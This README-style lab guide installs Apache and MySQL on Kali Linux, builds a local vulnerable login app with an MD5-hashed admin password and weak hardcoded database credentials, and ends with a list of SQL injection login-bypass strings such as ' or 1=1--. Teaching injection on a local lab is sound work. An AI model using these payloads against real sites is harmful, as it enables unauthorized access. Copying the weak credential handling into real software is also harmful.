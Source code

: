 # Install Linux, Apache, MySQL, PHP  stack on Kali linux v20.4
  ## Step 1: Install Apache 
  ```sh 
   sudo apt-get update
   sudo apt-get install apache2
  ```
  ## Step 2: Install MySQL
  ```sh 
   $sudo apt update
   $sudo apt-get install mysql-server
   $sudo apt install mariadb-server
  ```
  ## Installing MariaDB
  ```sh 
   $sudo apt update
   $sudo apt install mariadb-server
  ```
 ## Download the Code :
 ```sh 
   git clone https://github.com/anir0y/verzeo-webapp 
  ```
  ## Copying the Downloaded folder
  ```sh
  /var/www/html/
  ```
  ## Starting the Services(Apache2,MySql)
  ```sh
  $sudo service apache2 start
  $sudo service mysql start
  ```
  ## Connecting the server with database
  ```sh
  $sudo mysql -u root
  ```
  > Creating a Table

```sh
     CREATE TABLE IF NOT EXISTS `users` (
     `id` int(11) NOT NULL AUTO_INCREMENT,
     `username` varchar(200) NOT NULL,
     `password` varchar(33) NOT NULL,
      PRIMARY KEY (`id`)
   )  ENGINE=InnoDB  DEFAULT CHARSET=latin1 AUTO_INCREMENT=66 ;
```
> Inserting Values into the table
```sh
INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'admin', '21232f297a57a5a743894a0e4a801fc3');
```
## Creating User and granting permission
```sh
>create user 'user'@'localhost' identified by 'password';
>grant all privileges on 'table'.* to 'user'@'localhost' identified by 'password';
```
## Changing the Configuration file on dbconf
```sh
<?php
$con = new mysqli("127.0.0.1", "user", "password", "table");
if ($con -> connect_error){
    die("Database Not Congigured Properly");
}
else{
   // echo ("DB connection is established sir");
}
?>
```
## Next Steps

1.  Open any Web browser and try to connect the webserver 
```sh
127.0.0.1/database/index.php/
```
   
# Steps to Bypass the Login Webpage
> Using sql injection trying different approached.
  * SQL Injection 101, Login tricks

     * admin' --
     * admin' #
     * admin'/*
     * ' or 1=1--
     * ' or 1=1#
     * ' or 1=1/*
     * ') or '1'='1--
     * ') or ('1'='1--
> ![Final](https://github.com/rahulrbk/rahul.github.io/blob/master/Capture1.PNG)



